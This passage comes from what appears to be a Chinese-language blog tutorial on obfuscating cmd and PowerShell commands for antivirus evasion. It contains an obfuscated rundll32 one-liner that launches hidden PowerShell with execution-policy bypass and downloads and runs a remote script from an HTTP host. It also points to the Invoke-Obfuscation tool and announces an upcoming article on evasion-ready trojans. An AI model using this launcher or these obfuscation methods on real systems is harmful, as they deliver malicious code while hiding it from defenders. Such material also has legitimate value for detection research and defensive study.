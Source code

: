  |

rundll32:

加载并运行 32 位动态链接库（Dll）

| 

rUNdLL32 SHELL32.DLL ShellExec_RunDLL  "PowerSHELL"   "-wIN  HIDdeN"   "-ExeCUTion  BYPaSS"    "Invoke-Expression (New-Object System.Net.WebClient).DownloadString(\"http://192.168.118.174:8000/yauncode.txt\")"

 |

### 混淆神器

项目地址：https://github.com/danielbohannon/Invoke-Obfuscation

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImweHtnxUJwAsQU3PAHz8UyEXicD3a7mffHCTtEnCp2Q16q3m2q0aqKq2A/640?wx_fmt=png)

拥有多种混淆方式，基本上涵盖了上述的混淆方法。支持 TOKEN，AST 语法树，字符串，编码，压缩，启动方式等功能

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwpD6mkdOvNdruQuVgicu0H1p2mxX24nqE94wWWkibSnM76ib5wRia4mCuaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwxko7AZBoj0Y5QHiaG0Gc1vqr7RVRAecKsEVX3PmQuaLL0dSDQVvAI9A/640?wx_fmt=png)

这里记录下 cmd 和 powershell 的混淆方法，后续会有师傅带来免杀木马的相关文章。大家记得看呦。